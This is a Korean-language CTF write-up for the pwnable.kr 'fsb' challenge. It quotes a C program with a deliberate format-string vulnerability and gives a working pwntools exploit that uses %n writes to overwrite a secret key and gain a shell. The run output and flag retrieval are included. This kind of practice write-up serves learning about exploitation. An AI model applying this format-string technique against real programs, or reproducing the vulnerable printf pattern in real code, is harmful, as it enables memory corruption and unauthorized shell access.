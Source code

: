 # [pwnable.kr] fsb writeup



#### [summary] 

```c
#include <stdio.h>
#include <alloca.h>
#include <fcntl.h>

unsigned long long key;
char buf[100];
char buf2[100];

int fsb(char** argv, char** envp){
	char* args[]={"/bin/sh", 0};
	int i;

	char*** pargv = &argv;
	char*** penvp = &envp;
        char** arg;
        char* c;
        for(arg=argv;*arg;arg++) for(c=*arg; *c;c++) *c='\0';
        for(arg=envp;*arg;arg++) for(c=*arg; *c;c++) *c='\0';
	*pargv=0;
	*penvp=0;

	for(i=0; i<4; i++){
		printf("Give me some format strings(%d)\n", i+1);
		read(0, buf, 100);
		printf(buf); //<=== vulnerable!
	}

	printf("Wait a sec...\n");
        sleep(3);

        printf("key : \n");
        read(0, buf2, 100);
        unsigned long long pw = strtoull(buf2, 0, 10);
        if(pw == key){
                printf("Congratz!\n");
                execve(args[0], args, 0);
                return 0;
        }

        printf("Incorrect key \n");
	return 0;
}

int main(int argc, char* argv[], char** envp){

	int fd = open("/dev/urandom", O_RDONLY);
	if( fd==-1 || read(fd, &key, 8) != 8 ){
		printf("Error, tell admin\n");
		return 0;
	}
	close(fd);

	alloca(0x12345 & key);

	fsb(argv, envp); // exploit this format string bug!
	return 0;
}

```

명백하게 format string bug가 발생한다.

타겟은 다음과 같이 설정한다. `key     0x804a060 134520928`, `key+4   0x804a064 134520932` 

`format string bug`를 이용하여 key의 값을 대충 16으로 변경함으로써 주어진 조건문을 만족시키기로 했음

### exploit

```python
from pwn import *

r = process(['/home/fsb/fsb', 'cat /home/fsb/flag'])

#context.log_level = 'debug'

r.sendafter('Give me some format strings(1)\n','%134520928c%14$n')
r.sendafter('Give me some format strings(2)\n','%134520932c%15$n')
r.sendafter('Give me some format strings(3)\n','%21$n')
r.sendafter('Give me some format strings(4)\n','%c%20$n')

r.recvuntil("Wait a sec...\n")
sleep(3)
r.sendafter('key : \n','16')
r.sendline('cat /home/fsb/flag')
r.interactive()
```

솔직히 좀 아쉽게 푼 것 같다. `134520928`이 전체 다 출력되는데에 너무 오랜 시간이 걸린다. 빠르게 익스 가능한 방법을 찾아보려고 했으나 결국 찾지 못했다. ㅜ 요거도 질문 리스트임

### result

```shell
fsb@prowl:/tmp/charlie2$ python fsb.py 
[+] Starting local process '/home/fsb/fsb': pid 344678
[*] Switching to interactive mode
Congratz!
Have you ever saw an example of utilizing [n] format character?? :(
$ id
uid=1046(fsb) gid=1046(fsb) egid=1047(fsb_pwn) groups=1047(fsb_pwn),1046(fsb)
```

